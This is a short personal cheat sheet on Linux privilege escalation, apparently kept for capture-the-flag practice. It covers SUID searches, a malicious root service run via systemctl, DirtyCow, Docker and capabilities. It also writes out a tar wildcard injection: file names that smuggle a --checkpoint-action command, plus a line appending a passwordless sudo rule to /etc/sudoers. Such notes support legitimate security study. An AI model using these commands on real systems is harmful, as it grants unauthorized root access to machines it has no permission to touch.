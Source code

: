 # Linux-privesc
Tags: #privesc #linux #docker #capabilities 
Related to:  [[docker]]
See also:
Previous: 

## SUID 
```
# suid
find "$DIRECTORY" -perm /u=s,g=s
```

## systemctl
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

Create a service that runs as root and does something malicious (change root password, start a rev shell, etc.)

```
/bin/systemctl enable /full/path/to/root.service
/bin/systemctl start root
```


## Tar
`--checkpoint`  flag can be used to execute a script when a wildcard is being used, e.g. `tar cf /dir *`

```
echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
touch "/dir/--checkpoint-action=exec=sh sudo.sh"
touch "/dir/--checkpoint=1"
```
https://medium.com/azkrath/tryhackme-walkthrough-skynet-69399702ee5a

## Old kernels
DirtyCow 2016 exploit -- dirtycow.ninja
Many scripts, might need to compile

## Docker access
Many privesc possibilties, see [[docker]].

## Linux capabilities
- "Capabilities" == a way to relegate some things `root` can do to other processes
- `capsh --print` to show them


## References
[Linux capabilities man page](https://linux.die.net/man/7/capabilities)
